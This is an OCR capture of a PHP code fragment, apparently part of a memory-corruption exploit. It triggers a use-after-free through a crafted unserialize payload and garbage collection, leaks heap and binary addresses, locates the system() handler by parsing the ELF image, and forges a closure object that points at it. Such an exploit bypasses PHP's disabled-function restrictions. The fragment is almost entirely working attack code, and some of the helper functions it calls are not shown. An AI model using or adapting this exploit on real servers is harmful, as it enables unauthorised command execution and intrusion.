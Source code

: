```php
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_repeat('A', 79);

    $poc = 'a:4:{i:0;i:1;i:1;a:1:{i:0;O:4:"ryat":2:{s:4:"ryat";R:3;s:4:"chtg";i:2;}}i:1;i:3;i:2;R:5;}';
    $out = unserialize($poc);
    gc_collect_cycles();

    $v = [];
    $v[0] = ptr2str(0, 79);
    unset($v);
    $abc = $out[2][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

```